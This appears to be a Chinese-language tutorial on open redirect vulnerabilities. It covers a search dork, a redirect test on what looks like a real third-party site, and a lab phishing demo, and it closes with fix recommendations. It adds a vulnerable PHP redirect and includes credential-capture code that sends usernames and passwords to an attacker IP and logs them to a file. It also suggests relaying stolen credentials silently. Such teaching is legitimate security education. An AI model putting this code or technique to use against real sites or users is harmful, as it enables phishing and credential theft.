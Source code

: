 # 1. URL重定向

URL跳转漏洞，也叫开放重定向漏洞(open redirect) 。CWE-601对该漏洞的描述为：http 参数可能包含一个 URL  值，并可能导致 Web 应用程序将请求重定向到指定的 URL。通过修改恶意站点的 URL  值，攻击者可能成功发起网络钓鱼诈骗并窃取用户凭据。简单说来就是参数可控导致的漏洞产生。

## 1.1. 漏洞位置

下面就是漏洞可能存在的一些位置。

- 用户登录、统一身份认证、认证完进行跳转。
- 用户分享、收藏内容跳转。
- 跨站点认证、授权后。
- 站内其它链接跳转。
- 注册、注销、修改密码等。
- 账户切换、保存设置。

# 2. URL重定向基础演示

这里就是简单的查找演示，不会将对真实的网站进行测试。

## 2.1. 查找漏洞

```
inurl:url=http://
```

![image-20230830122435063](assets/image-20230830122435063.png)

### 2.1.1. 测试漏洞

这里可以看到URL就是一个典型的后面带地址跳转的。

```
https://www.lsbin.com/wp-content/themes/begin%20lts/inc/go.php?url=http://picasion.com/
```

![image-20230830122643608](assets/image-20230830122643608.png)

### 2.1.2. 加载完情况

可以看到是跳转到另外一个网站了，那么就证明这个是可以利用的。

![image-20230830122735247](assets/image-20230830122735247.png)

### 2.1.3. 验证漏洞

这里我们将后面的地址修改为百度的地址，看看是否能够正常跳转。

```
https://www.lsbin.com/wp-content/themes/begin%20lts/inc/go.php?url=https://baidu.com/
```

![image-20230830122930683](assets/image-20230830122930683.png)

### 2.1.4. 成功验证

这里可以看到成功跳转了。

![image-20230830122956089](assets/image-20230830122956089.png)

## 2.2. 代码修改

代码修改，这里由于特殊情况，所以需要修改一下代码。

### 2.2.1. 用户端代码修改

这里就是为了让用户端能够接收跳转，原本的靶场是不支持跳转的。

```
客户端搭建成功后，修改zb_system/login.php文件

加入代码：
if(isset($_GET['url'])){
	header("Location: " . $_GET['url']);
}
```

![image-20230830123654260](assets/image-20230830123654260.png)

### 2.2.2. 攻击端代码修改

这里就是为了能够实现一些密码读取的功能，需要对其代码进行修改，这里会代码的大佬就不用看了。

```
修改zb_system/cmd.php接收文件，这里的IP地址要写攻击端的，当然有域名肯定就写域名，这里是我测试。
加入代码：
$username=$_POST['username'];
$password=$_POST['password'];
echo "<script src=http://192.168.10.40/zblog/zb_system/x.php?username=$username&password=$password></script>";    
```

![image-20230830123949890](assets/image-20230830123949890.png)

同样这里需要创建一个X.php来接收数据。

```
创建zb_system/x.php接受文件
<?php

$user=$_REQUEST['username'];
$pass=$_REQUEST['password'];
//echo $user.$pass;
$file=fopen('users.txt','a+');
fwrite($file,$user.'|'.$pass);
fclose($file);

?>
```

![image-20230830124057364](assets/image-20230830124057364.png)

## 2.3. 利用思路

这里我们可以这么想，既然存在跳转的情况，那么如果将URL后面的地址修改成功我们自己搭建的钓鱼界面的话，那么是不是就可以成功进行钓鱼了，比如在一些需要输入账号密码的输入框页面中，那么当跳转后，用户依旧以为是正常的跳转，实际上已经跳转到攻击者构建的网站上了。

### 2.3.1. 用户端

这里打开页面发现是一个登录的页面，那么登录页面就满足了我们钓鱼的想法，那么就是制作一个一模一样的登录页面，然后通过修改参数将账户密码读取出来。

```
http://192.168.10.30/zblog/zb_system/login.php
```

![image-20230830123330360](assets/image-20230830123330360.png)

#### 2.3.1.1. 验证跳转

这里验证一下跳转，这里也是成功跳转了。

```
http://192.168.10.30/zblog/zb_system/login.php?url=http://baidu.com
```

![image-20230830124150665](assets/image-20230830124150665.png)

### 2.3.2. 攻击端

这里再上面修改好了之后，利用URL重定向进行钓鱼，把你涉及的URL发送给别人，让对方去点击，那么点击后就会跳转，若输入账号密码，那么就会得到相关的账号密码或个人信息。

#### 2.3.2.1. 跳转钓鱼

可以看到这里是成功跳转了，如果你再创建一个域名比较像的，那么是不是就实现了迷惑？

```
http://192.168.10.30/zblog/zb_system/login.php?url=http://192.168.10.40/zblog/zb_system/login.php
```

![image-20230830124343229](assets/image-20230830124343229.png)

#### 2.3.2.2. 获取账号密码

这里就等对方输入账户密码了，这里当用户端输入账号密码后，那么再攻击端就能够看到账号密码了，当然这里是会出现登录错误的情况。

其实这里还有一个办法，如果没有验证码的情况下，可以再你的网站上做个中转，比如将用户输入的账号密码记录下来的同时，自动发送到原先的网站，然后再去校验跳转回原来的网站，这样就神不知鬼不觉了。

![image-20230830124508046](assets/image-20230830124508046.png)

#### 2.3.2.3. 查看账号密码

这里我们毕竟使用的是比如的靶场，所以密码都是加密的，如果是代码水平高，自制一个也是可以的。

![image-20230830124748825](assets/image-20230830124748825.png)

# 3. 修复

绕过方式网上也很多，这里就不介绍了，只要给几个修复建议吧！

- 1.使用白名单
- 2.在可能的情况下，让用户提供在服务器端映射到完整目标 URL 的短名称、ID 或令牌
- 3.不允许将 URL 作为目标的用户输入
- 4.如果无法避免用户输入，请确保提供的值有效、适用于应用程序，并且已为用户授权
- 5.从应用程序中删除重定向功能，并将指向它的链接替换为指向相关目标 URL 的直接链接

# 4. 总结

以上就是关于url跳转漏洞的一些相关内容。这个漏洞是属于比较好理解的，适合刚入门的新手学习。这个漏洞本身是低危的，当在渗透测试时如果发现存在这个漏洞的时候，不妨看看有没有机会和其他漏洞配合扩大攻击。
